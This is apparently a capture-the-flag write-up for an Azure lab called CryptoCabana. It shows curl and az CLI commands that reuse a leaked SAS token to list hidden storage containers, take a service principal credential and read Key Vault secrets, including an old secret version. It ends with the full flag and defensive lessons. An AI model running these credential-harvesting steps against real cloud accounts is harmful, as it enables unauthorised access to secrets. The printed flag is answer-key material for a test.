Summary
CryptoCabana is a fake "seed phrase backup" web app hosted on Azure Static Website hosting. The client-side JavaScript embeds an overly-permissive Azure Storage SAS token that allows listing every container in the storage account — not just the one intended for use.
This exposes a hidden vault container holding a leaked service principal credential. That credential grants access to an Azure Key Vault, where the flag is split into three secret "shards." One shard was rotated after "IT flagged it," but Key Vault's version history still holds the original (real) value.
Step 1; Recon the static site
Target: https://cryptocabanaf5scjagc.z13.web.core.windows.net/
Pulled the raw HTML source:
curl -s https://cryptocabanaf5scjagc.z13.web.core.windows.net/ -o index.html cat index.html


The page is a "seed phrase backup" form that calls a backupPhrase() JS function on submit, loaded from app.js.
Step 2;Pull apart what the kiosk hands out for free
curl -s https://cryptocabanaf5scjagc.z13.web.core.windows.net/app.js -o app.js cat app.js

app.js contains a hardcoded SAS token used to PUT backup files directly into Blob Storage from the browser:

Key finding: the SAS token's permissions (sp=rl = read + list) and scope (srt=sco = service + container + object) are far broader than the app needs. A write-only token scoped to the backups container would have sufficed — this one can list every container in the whole storage account and read every blob in them.
Step 3; Follow the trust somewhere the page never points you
Used the leaked SAS token directly against the Blob service endpoint (not the container the app uses) to enumerate all containers:
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/?comp=list&sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=<SAS_SIG>"
Result: three containers — $web (the site itself), backups (intended use), and vault — never linked from the front-end.

curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/vault?restype=container&comp=list&sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=<SAS_SIG>"
Found two blobs: backup-service-account.json and seed_phrase.txt (a decoy — a fake recovery phrase, not the flag).

Downloaded the service account file:
curl -s "https://cryptocabanaf5scjagc.blob.core.windows.net/vault/backup-service-account.json?sv=...&sig=<SAS_SIG>"
{"client_id": "dbcf2923-e4eb-4b72-a0a4-688aa1185cf5",
"client_secret": "REDACTED",
"key_vault_name": "ccabana-kv-f5scjagc",
"key_vault_uri": "https://ccabana-kv-f5scjagc.vault.azure.net/",
"note": "CryptoCabana backup automation account. Rotate this if it ever leaves the vault. -- IT",
"tenant_id": "8f8c5f8e-42d3-4ceb-97ad-241bbf446d6c"
}
This is "what the kiosk is quietly trusting to reach into storage on its own" — an Azure AD service principal with its own credentials, sitting in plaintext in a "private" blob container, pointing at a Key Vault the site never references.

Step 4; Authenticate as the service principal.

Step 5; Enumerate the Key Vault
az keyvault secret list --vault-name ccabana-kv-f5scjagc -o table
Four secrets: key-shard-1, key-shard-2, key-shard-3, and master-key (expired 2020-01-01 — a red herring / inaccessible via RBAC).

Reading each current value:
for s in key-shard-1 key-shard-2 key-shard-3 master-key; do
echo "=== $s ===" az keyvault secret show --vault-name ccabana-kv-f5scjagc --name $s --query value -o tsv
Done

| Secret | Current value |
|---|---|
| key-shard-1 | THM{n0t_ur |
| key-shard-2 | "Rotated this after IT flagged it -- old value should still be recoverable if you know where to look." |
| key-shard-3 | ur_c01ns!} |
| master-key | 403 Forbidden (this service principal lacks RBAC on it) |
Step 6; Recover the rotated shard from version history
key-shard-2's current value is a decoy pointing at its own history — straight out of @0xMia's tip: "if a value looks freshly rotated, ask yourself what it looked like five minutes before that."
az keyvault secret list-versions --vault-name ccabana-kv-f5scjagc --name key-shard-2 --query "[].id" -o tsv
Two versions returned. Read the older one:
az keyvault secret show \
--id "https://ccabana-kv-f5scjagc.vault.azure.net/secrets/key-shard-2/3d6492d2c6f74123bc754a9ded22b2a0" \
--query value -o tsv
Result: _k3ys_n0t_ — the real middle shard.

Step 7; Assemble the flag
| Shard | Value |
|---|---|
| key-shard-1 | THM{n0t_ur |
| key-shard-2 (old version) | _k3ys_n0t_ |
| key-shard-3 | ur_c01ns!} |
Flag: THM{n0t_ur_k3ys_n0t_ur_c01ns!}lessons
- Over-scoped SAS token — the front-end only needed to write a single blob into one container, but was issued a token with read + list at service scope, exposing the entire storage account's container list.
- Sensitive credentials stored in Blob Storage — a service principal's client_secret was stored in plaintext in a blob container reachable via that same over-scoped SAS token.
- Secret rotation without invalidating old versions — Key Vault secret rotation doesn't delete prior versions by default; if a leaked secret is rotated but old versions remain readable to the same identity, the "rotation" provides no real protection.